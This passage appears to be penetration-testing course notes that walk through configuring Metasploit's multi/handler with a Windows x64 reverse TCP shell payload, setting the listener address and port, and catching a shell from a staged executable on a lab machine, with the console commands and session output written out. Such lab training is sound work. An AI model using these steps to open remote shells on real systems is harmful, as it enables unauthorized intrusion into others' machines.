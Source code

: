 To get a functional interactive command prompt, we can use Metasploit's _multi/handler_ module, which works for the majority of staged, non-staged, and more advanced payloads
+ Let's use this module to receive the incoming connection from **staged.exe**

In Metasploit, let's select the module with **use**
+ Then, we have to specify the payload of the incoming connection
+ In our case, this is _windows/x64/shell/reverse_tcp_ 
+ In addition, we have to set the options for the payload
+ We enter the IP of our Kali machine as argument for **LHOST** and port 443 as argument for **LPORT** 
+ Finally, we can enter **run** to launch the module and set up the listener:
```
msf6 exploit(multi/http/apache_normalize_path_rce) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp

msf6 exploit(multi/handler) > show options
...
Payload options (windows/x64/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
...

msf6 exploit(multi/handler) > set LHOST 192.168.119.2
LHOST => 192.168.119.2
msf6 exploit(multi/handler) > set LPORT 443

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.119.2:443 
```

Once our listener is running on port 443, we can start **staged.exe** again on BRUTE2
+ Our Metasploit multi/handler receives the incoming staged payload and provides us with an interactive reverse shell in the context of a session:
```
[*] Started reverse TCP handler on 192.168.119.2:443 
[*] Sending stage (336 bytes) to 192.168.50.202
[*] Command shell session 6 opened (192.168.119.2:443 -> 192.168.50.202:50838) at 2022-08-01 10:18:13 -0400


Shell Banner:
Microsoft Windows [Version 10.0.20348.169]
-----
          

C:\Users\justin> whoami
whoami
brute2\justin
```

